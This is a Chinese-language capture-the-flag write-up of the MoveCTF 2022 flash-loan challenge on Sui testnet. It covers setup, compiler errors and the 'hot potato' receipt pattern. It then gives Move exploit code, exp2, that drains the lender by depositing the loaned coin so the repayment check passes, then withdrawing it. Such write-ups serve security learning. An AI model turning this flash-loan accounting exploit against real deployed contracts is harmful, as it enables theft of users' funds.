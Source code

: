 原题目在https://github.com/movebit/movectf-4/blob/master/sources/module.move 考察闪电贷    
由于Move2024有些变化，我对源码做了微调https://github.com/m4sk93/movectf/tree/main/movectf2022/flashloan

## 环境搭建
参考[MoveCTF2022 Checkin](https://m4sk93.github.io/posts/movectf2022_1/)部署题目后，  
为了后续调用方便，在配置文件中添加package ID
```
[package]
name = "movectf2022_flashloan"
edition = "2024.beta" # edition = "legacy" to use legacy (pre-2024) Move
# license = ""           # e.g., "MIT", "GPL", "Apache 2.0"
# authors = ["..."]      # e.g., ["Joe Smith (joesmith@noemail.com)", "John Snow (johnsnow@noemail.com)"]
published-at = "0x2a61d471519b8e85a7730bebcfc3c5cace6ffffb2f5576d593821422d514adc2" # package id

[dependencies]
Sui = { git = "https://github.com/MystenLabs/sui.git", subdir = "crates/sui-framework/packages/sui-framework", rev = "framework/testnet" }

[addresses]
#movectf2022_flashloan = "0x0"
movectf2022_flashloan = "0x2a61d471519b8e85a7730bebcfc3c5cace6ffffb2f5576d593821422d514adc2" # package id

```

## 编写exp
为了调用题目，在配置文件中添加依赖
```
[dependencies]
Sui = { git = "https://github.com/MystenLabs/sui.git", subdir = "crates/sui-framework/packages/sui-framework", rev = "framework/testnet" }
movectf2022_flashloan= { local = "../movectf2022_flashloan/" }
```

初步分析getflag时会检查是否已经把池子抽干,
```
    // check whether you can get the flag
    public entry fun get_flag(self: &mut FlashLender, ctx: &mut TxContext) {
        if (balance::value(&self.to_lend) == 0) {
            event::emit(Flag { user: tx_context::sender(ctx), flag: true });
        }
    }
```
直接试试：
```
/// Module: exp
module exp::exp {

    use sui::tx_context::TxContext;
    use movectf2022_flashloan::flash::{Self, FlashLender};

    public entry fun exp1(lender: &mut FlashLender, ctx: &mut TxContext) {
        let (coin, receipt) = flash::loan(lender, 1000, ctx);

        flash::get_flag(lender, ctx);
    }
}
```
结果编译时就报错
```
error[E06001]: unused value without 'drop'
   ┌─ ./sources/exp.move:9:37
   │
 8 │         let (coin, receipt) = flash::loan(lender, 1000, ctx);
   │              ---- The local variable 'coin' still contains a value. The value does not have the 'drop' ability and must be consumed before the function returns
 9 │         flash::get_flag(lender, ctx);
   │                                     ^ Invalid return
   │
   ┌─ ./../movectf2022_flashloan/sources/movectf2022_flashloan.move:54:9
   │
54 │     ): (Coin<FLASH>, Receipt) {
   │         ----------- The type 'sui::coin::Coin<movectf2022_flashloan::flash::FLASH>' does not have the ability 'drop'
   │
   ┌─ /home/kali/.move/https___github_com_MystenLabs_sui_git_framework__testnet/crates/sui-framework/packages/sui-framework/sources/coin.move:35:19
   │
35 │     public struct Coin<phantom T> has key, store {
   │                   ---- To satisfy the constraint, the 'drop' ability would need to be added here

error[E06001]: unused value without 'drop'
   ┌─ ./sources/exp.move:9:37
   │
 8 │         let (coin, receipt) = flash::loan(lender, 1000, ctx);
   │                    ------- The local variable 'receipt' still contains a value. The value does not have the 'drop' ability and must be consumed before the function returns
 9 │         flash::get_flag(lender, ctx);
   │                                     ^ Invalid return
   │
   ┌─ ./../movectf2022_flashloan/sources/movectf2022_flashloan.move:24:19
   │
24 │     public struct Receipt {
   │                   ------- To satisfy the constraint, the 'drop' ability would need to be added here
   ·
54 │     ): (Coin<FLASH>, Receipt) {
   │                      ------- The type 'movectf2022_flashloan::flash::Receipt' does not have the ability 'drop'
```
所以必须对coin和receipt进行处理,不能让你贷完就跑路

注意看代码里的这个结构体：
```
    public struct Receipt {
        flash_lender_id: ID,
        amount: u64
    }
```
参考 [Hot Potato](https://examples.sui.io/patterns/hot-potato.html)
(Hot Potato is a name for a struct that has no abilities, hence it can only be packed and unpacked in its module. In this struct, you must call function B after function A in the case where function A returns a potato and function B consumes it.)
```
/// Module: exp
module exp::exp {

    use sui::tx_context::TxContext;
    use movectf2022_flashloan::flash::{Self, FlashLender};

    public entry fun exp1(lender: &mut FlashLender, ctx: &mut TxContext) {
        let (coin, receipt) = flash::loan(lender, 1000, ctx);

        flash::get_flag(lender, ctx);

        flash::repay(lender, coin);
        flash::check(lender, receipt);
    }
}
```
有借有还，这下成功了.

问题来了，可以不还吗？？？

还有一种利用方式
```
/// Module: exp
module exp::exp {

    use sui::tx_context::TxContext;
    use movectf2022_flashloan::flash::{Self, FlashLender};

    public entry fun exp1(lender: &mut FlashLender, ctx: &mut TxContext) {
        let (coin, receipt) = flash::loan(lender, 1000, ctx);

        flash::get_flag(lender, ctx);

        flash::repay(lender, coin);
        flash::check(lender, receipt);
    }

    public entry fun exp2(lender: &mut FlashLender, ctx: &mut TxContext) {
        let (coin, receipt) = flash::loan(lender, 1000, ctx);

        flash::deposit(lender, coin, ctx);
        flash::check(lender, receipt);
        flash::withdraw(lender, 1000, ctx);

        flash::get_flag(lender, ctx);
    }

}
```
问题在于：coin可以通过`deposit`消耗掉.通过`check`消耗`receipt`时不需要发送coin.而且check判断余额的方式也不对。

## 拓展

https://github.com/movebit/movectf2024-day1/tree/main/swap


## 参考资料

感谢大佬们无私分享
- [MoveCTF 2022 题解](https://lanford33.com/movectf-2022)
- [MoveCTF 所有题解Writeup](https://learnblockchain.cn/index.php/article/5025)

